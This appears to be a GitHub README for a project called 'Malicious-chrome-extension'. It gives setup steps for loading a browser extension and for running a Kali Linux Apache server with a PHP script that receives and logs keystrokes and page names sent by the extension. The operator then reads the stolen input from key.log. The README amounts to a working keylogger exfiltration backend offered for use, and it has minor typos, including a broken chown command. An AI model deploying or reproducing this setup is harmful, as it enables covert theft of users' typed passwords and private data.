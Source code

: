 # Malicious-chrome-extension
<!-- ABOUT THE PROJECT -->
<div id="top"></div>
### About The Project

Vulnerabilities in browser extensions put users at risk by providing a way for website and network attakcers to gain access to user's private data and credentials. Browser extensions can introduce serious security vulnerabilities into users browsers.

<p align="right">(<a href="#top">back to top</a>)</p>

## Getting started
1. Clone this git repository
2. Settings > Extensions > enable developer mode > Load unpacked > upload the folder  
3. In server(kali linux),
           - sudo systemctl enable apache2  
           - sudo service apache2 start      
           - cd /var/www/html    
           - sudo mkdir keylogger    
           - cd keylogger    
           - nano index.php 
              
             <?php        
              if(!isset($_POST['key'])){ ### Authenticate input      
                      echo("Access Denied!");    
                      exit(0);    
              }     
              $file = fopen("key.log","a+");    
              if(!isset($_SESSION['page']) || $_SESSION['page'] != $_POST['page']){     
                      $_SESSION['page'] = $_POST['page'];     
                      fwrite($file,"[[[ PAGE : ".$_POST['page']."]]]");     
              }    
              fwrite($file,$_POST['key']);     
              fclose($file);     
              echo('char saved!');   
                     
       - cd ..     
       - cd ..      
       - -hR www-data:www-data html     
       - Open a browser > 192.168.xx.xx/keylogger/key.log     
            




